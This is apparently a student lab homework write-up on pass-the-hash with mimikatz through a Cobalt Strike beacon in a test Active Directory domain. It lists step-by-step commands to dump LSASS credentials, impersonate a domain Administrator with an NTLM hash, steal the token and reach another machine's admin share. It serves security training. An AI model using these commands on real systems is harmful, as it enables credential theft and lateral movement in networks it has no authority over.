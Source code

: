 ## Homework #6
***
pass-the-hash (PTH) with mimikatz in your AD env by following this:
https://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-hash-with-mimikatz/

I will dump creds from LSASS to get my domain account hashes. This is because I am going to PTH to another domain computer with a different local user/password. For local user accounts you can use `hashdump`. You can view the captured credentials under View -> Credentials. 
```
beacon> logonpasswords
```

Create a trust relationship from a username and password hash.
```
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:WIND.local /ntlm:<ntlmhashhere> /run:"powershell -w hidden"
```

Steal the token from the PID created by mimikatz. 
```
beacon> steal_token <PID#here>
```

Test token on remote machine. 
```
beacon> shell dir \\CFC-Win10-02\C$
```

### References
Need to have administrator beacon. Troubleshooting article here. 
https://blog.cobaltstrike.com/2015/12/16/windows-access-tokens-and-alternate-credentials/

Kandy Walkthrough of PTH
https://www.youtube.com/watch?v=GmrPHD7k7W0&t=424s
